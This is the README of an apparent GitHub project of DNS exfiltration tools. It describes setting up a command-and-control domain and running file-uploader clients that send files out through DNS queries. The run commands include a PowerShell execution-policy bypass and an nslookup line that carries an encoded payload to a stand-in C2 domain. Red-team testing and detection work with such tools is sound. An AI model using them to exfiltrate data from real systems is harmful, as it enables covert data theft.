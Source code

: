 
# DNS Exfiltration Tools

**Disclaimer:**  
These tools are intended solely for **security testing purposes**. I am not responsible for any misuse of these tools. **Use responsibly**.

---

## Table of Contents
1. [Infrastructure Setup](#infrastructure-setup)
2. [Tool Usage](#tool-usage)
    - [dns_file_receiver.py (Unix - Server)](#dns-file-receiver-unix---server)
    - [dns_file_uploader.ps1 (Windows - Client)](#dns-file-uploader-windows---client)
    - [dns_file_uploader.py (Unix - Client)](#dns-file-uploader-unix---client)
    - [ns_dns_server.py (Unix - Server)](#ns-dns-server-unix---server)
3. [Base32 Payload Instructions for ns_dns_server.py (Client)](#base32-payload-instructions-for-ns_dns_serverpy-client)

---

## Infrastructure Setup

**Prerequisites:**
- You must own a domain and have an internet-connected server.
- Example setup uses AWS and Cloudflare.

**Server Information:**
- AWS VM IP: `123.123.123.123`
- Cloudflare Domain: `fakedomain.com`

**Cloudflare DNS Configuration:**
1. Create an NS record:  
   **Name:** `c2.fakedomain.com`  
2. Create an A record for C2:  
   **Name:** `c2`  
   **IPv4 address:** `123.123.123.123`  
3. Create an A record for `example.com`:  
   **IPv4 address:** `123.123.123.123`

---

## Tool Usage

### dns_file_receiver.py (Unix - Server)

1. Edit the `domain` parameter in the script to:  
   ```bash
   c2.fakedomain.com
   ```
2. Adjust the `SOCKET_TIMEOUT` to an appropriate duration in seconds. This determines how long the script will stay active, waiting for client connections.

3. Run the script:  
   ```bash
   sudo python3 dns_file_receiver.py
   ```

### dns_file_uploader.ps1 (Windows - Client)

1. Update the `domain` parameter in the script to:  
   ```bash
   c2.fakedomain.com
   ```
2. Run the script with PowerShell:  
   ```bash
   powershell -ExecutionPolicy Bypass -File .\dns_file_uploader.ps1
   ```
3. Follow the prompts:
    - **File path:** (quotes can be used)
    - **Domain OR IP:** Either the AWS server IP (`123.123.123.123`) or domain name (`fakedomain.com`)
    - **Random delay:** Set a random delay in seconds

### dns_file_uploader.py (Unix - Client)

1. Update the `DNS_SERVER` parameter to:  
   - AWS server IP (`123.123.123.123`) or domain name (`fakedomain.com`)

2. Update the `domain` parameter in the script to:  
   ```bash
   c2.fakedomain.com
   ```

3. Run the script:  
   ```bash
   sudo python3 dns_file_uploader.py
   ```
4. Follow the prompts:
    - **File path:** (quotes can be used)
    - **Random delay:** Set a random delay in seconds

### ns_dns_server.py (Unix - Server)
**IMPORTANT NOTE:**
- Requires base32 payload: Instructions for building payload below.
- [Base32 Payload Instructions for ns_dns_server.py (Client)](#base32-payload-instructions-for-ns_dns_serverpy-client)

1. Update the `DOMAIN` parameter in the script to:  
   ```bash
   c2.fakedomain.com
   ```
2. Optionally, update the `fake_ip` parameter if needed.

3. Run the script:  
   ```bash
   sudo python3 ns-dns_server.py
   ```

---

## Base32 Payload Instructions for ns_dns_server.py (Client)
**IMPORTANT NOTE:**
- **Maximum Length of a DNS Label:** Each label (subdomain) in a DNS name can be up to 63 characters.
- **Maximum Length of the Entire Domain Name:** The full domain name (including all labels and dots) can be a maximum of 253 characters.

1. Use [CyberChef](https://gchq.github.io/CyberChef/#recipe=To_Base32('A-Z2-7%3D')) to create a Base32 payload.
   
2. Use `dns_length_calc.py` to ensure that the lengths are valid. Follow the prompts.
   ```bash
   python3 dns_length_calc.py
   ```
   - Example:
   ```bash
   Enter subdomain: KRCVGVCJJZDSAVCFKNKESTSHEAYTEMY
   Enter full domain (e.g., example.com): c2.fakedomain.com
   Subdomain length: 31 characters (Valid)
   Full domain length: 49 characters (Valid)
   ```
   
3. Once the payload is generated, use `nslookup` to test the server:  
   ```bash
   nslookup <payload>.c2.fakedomain.com
   ```

**Example:**

- **Input:**  
   ```
   TESTING TESTING 123
   ```
- **Output:**  
   ```
   KRCVGVCJJZDSAVCFKNKESTSHEAYTEMY=
   ```

- **Command:**  
   ```bash
   nslookup KRCVGVCJJZDSAVCFKNKESTSHEAYTEMY.c2.fakedomain.com
   ```
  **EXTRA NOTE:**
  - The '=' is added by the script when it tries to decrypt it.
---

**Note:** All other tools not documented here are works in progress.
